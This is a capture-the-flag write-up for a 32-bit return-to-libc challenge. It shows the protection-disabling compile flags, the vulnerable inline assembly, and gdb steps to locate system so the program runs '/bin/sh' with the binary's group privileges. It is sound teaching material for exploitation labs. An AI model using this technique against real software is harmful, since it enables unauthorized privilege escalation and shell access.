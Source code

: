 # Mission 3 ~ return to libc
## Goal and instructions
Connect to bin.chall.necst.it port 22 via SSH as user [USERNAME]. You will find the files in /home/[USERNAME]/mission3.

Your goal is to read the file flag with the privileges of the group that owns the vulnerable binary.


## Compiled options
The executable program is compiled in 32bit, the stack isn't executable and the canary is inactive.
```
gcc -m32 -no-pie -fno-pie -fno-stack-protector -O0 -o mission3 mission3.c
```


## Code overview
Looking at the source code you can see that there are assembly instructions; these instructions allow you to call a function. Our goal is to call the *system(“/bin/sh”)* function, which allows us to run a shell with the same privileges as the *mission3* binary.
```
asm(
      "movl %0, %%eax\n\t"
      "push %%eax\n\t"
      "call *%1"
      :
      : "r" (mess_addr), "r" (addr)
  );
```

## Solution
Reading the assembly code carefully, we see that the user can enter two parameters: the value to be saved in EAX and the function to be called.

To make the call to *system(“/bin/sh”)*, we need to set *“/bin/sh”* inside EAX and find the address of the *system* function in order to call it.

1. Find the address of the **system** function of the *libc* library
	- open gdb
		```
		gdb mission3
		```
	- put a breakpoint 
		```
		break main
		```
	- run the program 
		```
		run
		```
	- find the system address
		```
		print system
		```
2. Figure out where to save the required parameters
	- **/bin/sh** must be saved in *mess_addr* variable that corresponds to the *message* variable.
	- **system address** must be saved in *addr* variable that corresponds to the *day*, *month* and *year* variable.
		> **note:** the *system address* must be written in decimal 
